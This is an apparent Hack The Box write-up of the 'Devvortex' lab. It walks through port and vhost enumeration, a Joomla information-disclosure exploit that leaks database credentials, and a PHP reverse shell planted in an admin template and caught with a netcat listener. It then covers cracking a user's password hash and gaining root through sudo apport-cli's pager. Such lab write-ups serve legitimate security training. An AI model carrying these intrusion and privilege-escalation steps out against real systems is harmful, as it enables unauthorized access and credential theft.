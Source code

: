 # HTB - Devvortex

#### Ip: 10.10.11.242
#### Name: Devvortex
#### Rating: Easy

----------------------------------------------------------------------

Devvortex.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-06 12:44 CST
Warning: 10.10.11.242 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.242
Host is up (0.075s latency).
Not shown: 65463 closed tcp ports (reset), 70 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```
Lets add http://devvortex.htb to `/etc/hosts`

Checking out the site we find a page offering developer services:

devvortex_site.png

After not finding much during directory fuzzing, I scanned for vhosts and found dev.devvortex.htb, which I also added to `/etc/hosts`. 

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" --hh 154
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.242/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                     
=====================================================================

000000022:   502        7 L      12 W       166 Ch      "dev" 
```

Looking for directories we find an /administrator directory:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ dirsearch -u http://dev.devvortex.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/ryan/HTB/Devvortex/reports/http_dev.devvortex.htb/_24-03-06_13-27-57.txt

Target: http://dev.devvortex.htb/

[13:27:57] Starting: 
[13:28:09] 403 -  564B  - /%2e%2e;/test
[13:28:17] 403 -  564B  - /admin/.config
[13:28:21] 301 -  178B  - /administrator  ->  http://dev.devvortex.htb/administrator/
```

Heading to this directory we see the site is running Joomla:

devvortex_admin.png

Looking for Joola exploit I find this information disclosure vulnerability: https://github.com/Acceis/exploit-CVE-2023-23752

### Exploitation

I can run the script and retrieve the usernames logan and lewis as well as a password for lewis:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ ruby joomla_disclosure.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

I am able to use Lewis' credentials to login to the Joomla site.

devvortex_login.png

Because we have administrator access, we should have an easy time getting remote code execution from here. Lets go to System > Templates > Administrator Templates > index.php and overwrite the file with PentestMonkey's php-reverse-shell.php. Now when we refresh the page and navigate back to the site, we catch a shell as www-data:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ nc -lnvp 443                 
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.242] 41584
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 17:00:23 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
devvortex
```

Trying to grab the flag in Logan's home folder we get a permission denied:

```
www-data@devvortex:/home/logan$ cat user.txt
cat: user.txt: Permission denied
```

However the credentials we discovered earlier were actually to the joomla mysql DB, so lets login on the target and see if we can discover any other credentials:

devvortex_logan_hash.png

Nice, looks like we've found a hash for user logan. Lets try cracking it:

devvortex_john.png

John was able to crack the bcrypt hash for us: `logan:tequieromucho`

We can now `su logan` and grab the user.txt flag:

```
www-data@devvortex:/home/logan$ su logan
Password: 
logan@devvortex:~$ whoami
logan
```

devvortex_user.png

### Privilege Escalation

Running `sudo -l` to see if I can run anyhting with elevated permissions I find:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

This is interesting. Looking for exploits I find if the program is using the `less` command, I can drop into a root shell.

First we run:
```
sudo /usr/bin/apport-cli --file-bug
```

Then select 1, and then 2. You will be prompted to input any key.

Next we can select `V` which will open up a terminal as root. from there we can declare `!/bin/bash` and drop into a root shell.

We can now grab the final flag:

devvortext_root.png

Thanks for following along!

-Ryan

-------------------------------------------